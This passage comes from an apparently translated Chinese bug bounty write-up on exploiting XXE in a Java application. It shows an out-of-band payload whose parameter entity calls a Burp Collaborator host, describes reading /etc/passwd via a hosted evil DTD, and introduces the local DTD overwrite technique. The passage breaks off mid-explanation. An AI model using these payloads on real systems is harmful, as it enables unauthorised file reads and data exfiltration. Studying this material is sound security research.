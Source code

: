 # 0x04 XXE OOB

我想跳过所有的这些麻烦，并使用 OOB 技术来通过 FTP 检索文件，因为 app 服务器是 JAVA 技术的并为此使用了 burp collaborator，而且还使用了参数实体而不是常规实体。

```bash
<!DOCTYPE a[
<!ENTITY % x SYSTEM " http://something.burpcollaborator.net"> %x;
]>
<root>
<id>1</id>
<name>test</name>
</root>
```

并通过测试后，知道此处不允许 HTTP 带外（我试了很多次，但是没有成功）

# 0x05 通过子域进行 OOB XXE

一周后，我在一个子域测试中发现了一个 RCE，出于好奇，我在其中托管了一个邪恶的 DTD 文件，以通过此 XXE 在那读取/ etc / passwd，并返回了服务器错误消息和像这样在 Response 本身中显示文件内容：[https](https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/) : [//blog.netspi.com/forcing-xxe-reflection-server-error-messages/](https://blog.netspi.com/forcing-xxe-reflection-server-error-messages/)  
：D  
因为可能是该子域被列入白名单，能够建立带外的连接。  
该公司增加了少量奖金，希望我在不利用已经报告的 RCE 的情况下利用此 XXE 获得全部奖励。

# 0x06 使用 DTD 利用 XXE（不通过 OOB）

在很长一段时间，我无法利用，但随后[https://blog.h3xstream.com/2019/07/automating-local-dtd-discovery-for-xxe.html](https://blog.h3xstream.com/2019/07/automating-local-dtd-discovery-for-xxe.html)  
来了，给了希望。他列出了系统中可能已经存在的一些常见 DTD，以及如何通过简单地覆盖/替换 DTD 中已存在的实体来将它们用于 XXE 以便将 XXE 用于文件读取。但是，该博客上列出的那些 DTD 都不存在于我的目标服务器上。

# 0x07 本地 DTD 技术的简介

如果发现任何 DTD 文件已经存在于目标服务器文件系统的某个位置，该文件由参数实体（例如`<!ENTITY % injectable "something">`）组成，并且在该 DTD 本身的某个位置被饮用（例如`<!ENTITY % random (%injectable;)>`）。然后，我们基本上可以覆盖该实体的内容，而只需在 OOB 中的外部 evil.dtd 中编写将要执行的操作。例如如果服务器上存在 legit.dtd

**/usr/share/xyz/legit.dtd:**

```bash
..
<!ENTITY % injectable "something">
..
<!ENTITY % random (%injectable;)>
..
..
```

如果您在 XXE 中添加以下内容
